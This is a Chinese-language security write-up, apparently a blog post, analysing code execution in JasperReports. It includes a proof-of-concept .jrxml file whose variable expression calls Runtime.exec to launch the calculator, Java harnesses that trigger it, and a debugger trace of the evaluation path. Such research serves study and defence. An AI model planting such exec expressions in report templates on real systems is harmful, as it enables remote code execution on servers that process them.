 简介
--

[jaspersoft官网](https://community.jaspersoft.com/)

> JasperReports是一个全面的商业智能 （BI） 产品系列，提供强大的静态和交互式报告、报告服务器和数据分析功能。这些功能既可以作为独立产品提供，也可以作为集成的端到端 BI 套件的一部分提供。这些产品利用通用元数据并提供共享服务，例如安全性、存储库和计划。服务器公开了全面的公共接口。这实现了与其他应用程序的无缝集成，并能够轻松添加自定义功能。

### 漏洞成因

> JasperReports 中的所有公式都是通过表达式定义的。默认表达式语言是 Java，同时还支持JavaScript 或 Groovy语言。  
> 在 JasperReports 中，可以在字段、参数和变量等地方使用表达式。无论表达式中的任何内容，在计算时，它都会返回一个值（可以是 null）。

表达式的具体实现参见官方文档  
[jaspersoft官方文档](https://community.jaspersoft.com/documentation/jaspersoft%C2%AE-studio/tibco-jaspersoft-studio-user-guide/v900/jss-user-_-expressions-_-expressions/#jss-user_basicnotions_2905227221_1043505)

### 获取jrxml文档

`.jrxml` 文件是 JasperReports 的报告定义文件。  
`.jasper`文件是对`.jrxml`文件解析后生成的文件  
关于如何获取一个标准的jrxml文档，可以从网络上直接下载，也可以使用JasperReports官方提供的客户端工具Jaspersoft Studio  
[Community Edition](https://community.jaspersoft.com/download-jaspersoft/community-edition/)  
打开之后就是如下图这个样子  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-1ab896eb774d5d3ec80b969381d18661a603eef7.png)  
接下来，新增一个变量，并插入一段弹计算器代码  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-bf457c89d8ea91223156b03e21a6db3bb7b005c9.png)  
看一下生成的jrxml文件是什么样的  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-bfa02371539d31ab8b88d7bb5eeedda1392902a1.png)

漏洞复现
----

还是上面的程序，以及对应的`jrxml`文件  
此时如果再对文件进行解析并填充页面，则会执行定义的代码，比如说点击预览，就能够执行代码  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-f6d47932779cd4c4b4931c9588f097347a5e62a8.png)

### 代码层面复现

#### 环境

```php
jdk:8u251
<dependency>
  <groupId>net.sf.jasperreports</groupId>
  <artifactId>jasperreports</artifactId>
  <version>6.19.1</version>
</dependency>
<!-- 全版本都存在安全问题 -->
```

#### POC

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Created with Jaspersoft Studio version 6.21.3.final using JasperReports Library version 6.21.3-4a3078d20785ebe464f18037d738d12fc98c13cf  -->
<jasperReport xmlns="http://jasperreports.sourceforge.net/jasperreports" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://jasperreports.sourceforge.net/jasperreports http://jasperreports.sourceforge.net/xsd/jasperreport.xsd" name="Blank_A4" pageWidth="595" pageHeight="842" columnWidth="555" leftMargin="20" rightMargin="20" topMargin="20" bottomMargin="20" uuid="a302c78f-b491-47ab-89b2-0ae491b01984">
    <queryString>
        <![CDATA[]]>
    </queryString>
    <variable name="calc" class="java.lang.String">
        <variableExpression><![CDATA[java.lang.Runtime.getRuntime().exec("calc")]]></variableExpression>
    </variable>
    <background>
        <band splitType="Stretch"/>
    </background>
    <title>
        <band height="79" splitType="Stretch"/>
    </title>
    <pageHeader>
        <band height="35" splitType="Stretch"/>
    </pageHeader>
    <columnHeader>
        <band height="61" splitType="Stretch"/>
    </columnHeader>
    <detail>
        <band height="125" splitType="Stretch"/>
    </detail>
    <columnFooter>
        <band height="45" splitType="Stretch"/>
    </columnFooter>
    <pageFooter>
        <band height="54" splitType="Stretch"/>
    </pageFooter>
    <summary>
        <band height="42" splitType="Stretch"/>
    </summary>
</jasperReport>
```

#### 测试代码1

```java
// 直接解析.jrxml文件
public static void main(String[] args) throws Exception {
    Map<String, Object> hashMap = new HashMap<>();
    File file = new File("1.jrxml");
    JasperReport parentReport = JasperCompileManager.compileReport(new FileInputStream(file));
    JasperPrint jasperPrint = JasperFillManager.fillReport(parentReport, hashMap, new JREmptyDataSource());//解析
}
```

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-9c08565b3f900548f699e8d25c7a1c2b0bcb08f8.png)  
注意计算机弹了两次

#### 测试代码2

```java
public static void test2() throws Exception{
    String jrxml = "src/main/resources/jasperreports/jasper.jrxml";
    String jasper = "src/main/resources/jasperreports/1.jasper";
    Map<String, Object> hashMap = new HashMap<>();
    JasperCompileManager.compileReportToFile(jrxml,jasper);
    JasperFillManager.fillReport(jasper,hashMap,new JREmptyDataSource());
}
```

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-db4c71eb6c5ada4c3f112eb30debed7bc5a3f41f.png)  
计算机同样是弹了两次

漏洞分析
----

在`JasperFillManager.fillReport(`处下断，来分析一下代码  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-e27d4d7b692805d6a71e3cc070a2cca144aa892a.png)  
跟进来到`net.sf.jasperreports.engine.JasperFillManager#fillReport(net.sf.jasperreports.engine.JasperReport, java.util.Map<java.lang.String,java.lang.Object>, net.sf.jasperreports.engine.JRDataSource)`  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-b06ae8eb630767563dba930dad6cbc554040d617.png)  
接下来就是几个连续的重载，且并没有什么关键操作，所以直接来到`net.sf.jasperreports.engine.fill.JRBaseFiller#fill`  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-842cc53f3dd8116fa2a2ccdd7992c5e0e23a8b5e.png)

`net.sf.jasperreports.engine.fill.JRVerticalFiller#fillReport`  
![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-e319ba37ea0722e35ab049bb412e56f442f65138.png)

一路重载，来到`net.sf.jasperreports.engine.fill.JRFillDataset#next(boolean)`

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-7771f2d0d1ac47d7a07c3950a27a0a20fc8de9a9.png)

`net.sf.jasperreports.engine.fill.JRCalculator#estimateVariables`

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-65c2ecba722941526a5141aad31f8e212c4f8bf1.png)

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-917817acf008f8776e63d9d821d3903d77b4e325.png)

跟进来到`net.sf.jasperreports.engine.fill.JREvaluator#evaluateEstimated(net.sf.jasperreports.engine.JRExpression)`

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-35cca87d3d534b1277f81904f7b1a89739ad37f5.png)  
到这里，第一次执行代码的地方能够找到了，那再回到`net.sf.jasperreports.engine.fill.JRVerticalFiller#fillReport`中，并跟进到`net.sf.jasperreports.engine.fill.JRVerticalFiller#fillReportStar`方法中(开始构造报告的页面了)

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-1cc63022bde7b36fe9fdf25c79816dfb5febd56b.png)

`net.sf.jasperreports.engine.fill.JRVerticalFiller#fillDetail`

![微信截图_20240901181421.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-33698361f9eb109a9ddd564fcd6146e638701d58.png)

这里再次对变量进行了估值计算，所以这里也会再一次执行表达式，至此，两次执行代码的地方均分析完成；  
对于使用javascript和groovy的格式的表达式执行，跟上面的步骤基本相同，不过是执行表达式的地方有点区别。  
相关测试代码已上传至<https://github.com/Mechoy/jarVuln>

总结
--

对JasperReports不是很熟悉，但是刚好碰见了所以进行了一个简单的分析。文章若存在错误的地方，见谅